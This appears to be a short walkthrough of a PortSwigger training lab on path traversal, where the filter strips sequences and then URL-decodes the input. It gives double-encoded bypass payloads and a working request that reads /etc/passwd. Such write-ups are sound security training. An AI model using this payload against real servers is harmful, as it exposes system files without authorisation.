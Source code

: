# 4 - Traversal sequences stripped with superfluous URL-decode

> This lab contains a [file path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.
>
>  The application blocks input containing [path traversal](https://portswigger.net/web-security/file-path-traversal) sequences. It then performs a URL-decode of the input before using it.
>
>  To solve the lab, retrieve the contents of the `/etc/passwd` file.

 You might be able to use various non-standard encodings, such as `..%c0%af` or `..%252f`, to bypass the input filter.

![](../../.gitbook/assets/imagen%20%28638%29.png)

```text
GET /image?filename=..%252f..%252f..%252f/etc/passwd HTTP/1.1
```



